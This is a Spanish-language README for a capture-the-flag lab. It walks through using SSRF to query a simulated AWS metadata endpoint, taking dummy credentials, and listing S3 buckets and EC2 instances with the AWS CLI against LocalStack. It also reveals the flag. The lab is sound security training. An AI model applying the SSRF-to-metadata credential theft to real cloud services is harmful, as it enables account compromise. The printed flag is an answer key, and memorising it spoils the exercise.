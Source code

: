 # ssfr-aws-lab

El laboratorio se ejecuta con 
  ```bash
docker-compose up -d 
  ```
---

### **1. Reconocimiento**

El pentester comienza analizando la aplicación para identificar posibles vulnerabilidades.

#### **Paso 1: Analizar la aplicación**
- Accede a la aplicación en `http://34.51.13.20:8080/`.
- Observa que hay un formulario que permite ingresar una URL y verificar su contenido.

#### **Paso 2: Identificar la vulnerabilidad SSRF**
- Sospecha que la aplicación puede ser vulnerable a **Server-Side Request Forgery (SSRF)** porque toma una URL ingresada por el usuario y hace una solicitud HTTP a esa URL.
- Para confirmar, intenta acceder a recursos internos, como:
  - `http://localhost:8080` (la propia aplicación).
  - `http://127.0.0.1:8080` (alternativa a localhost).
  - `http://34.51.13.20:8080/latest/meta-data/` (el servicio de metadata simulado en la aplicación).

#### **Paso 3: Confirmar el SSRF**
- Ingresa la URL `http://34.51.13.20:8080/latest/meta-data/` en el formulario.
- Si la aplicación devuelve información del servicio de metadata de AWS, confirma que es vulnerable a SSRF.

---

### **2. Explotación**

Una vez confirmada la vulnerabilidad, el pentester explota el SSRF para obtener credenciales de AWS.

#### **Paso 1: Obtener credenciales de AWS**
- Ingresa la URL del servicio de metadata de AWS en el formulario:
  ```
  http://34.51.13.20:8080/latest/meta-data/iam/security-credentials/
  ```
- La aplicación devuelve las credenciales en formato JSON:
  ```json
  {
      "AccessKeyId": "test",
      "SecretAccessKey": "test",
      "Token": "test",
      "Region": "us-east-1"
  }
  ```

#### **Paso 2: Configurar las credenciales**
- Usa las credenciales obtenidas para configurar el entorno de AWS CLI:
  ```bash
  export AWS_ACCESS_KEY_ID=test
  export AWS_SECRET_ACCESS_KEY=test
  export AWS_SESSION_TOKEN=test
  export AWS_DEFAULT_REGION=us-east-1
  ```

---

### **3. Post-Explotación**

Con las credenciales en mano puedes interactúa con los servicios de AWS (LocalStack) para encontrar la bandera.

#### **Paso 1: Listar los buckets de S3**
- Usa el siguiente comando para listar los buckets en S3:
  ```bash
  aws --endpoint-url=http://34.51.13.20:4566 s3 ls
  ```
- Observa que hay un bucket llamado `secret-bucket-challenge`.

#### **Paso 2: Listar los archivos en el bucket**
- Usa el siguiente comando para listar los archivos en el bucket:
  ```bash
  aws --endpoint-url=http://34.51.13.20:4566 s3 ls s3://secret-bucket-challenge/
  ```
- Observa que hay un archivo llamado `flag.txt`.

### **Paso 3: Listar las instancias EC2**  

1. Ver las instancias EC2 ejecutando el siguiente comando:  

   ```bash
   aws --endpoint-url=http://34.51.13.20:4566 ec2 describe-instances \
     --query "Reservations[*].Instances[*].Tags[?Key=='Name'].Value" \
     --output text
   ```

2. La bandera es el nombre de la instancia encontrada:  

   ```
   FEMEC_Pentester_Cloud_AHAU
   ```

---


By M0r0k0
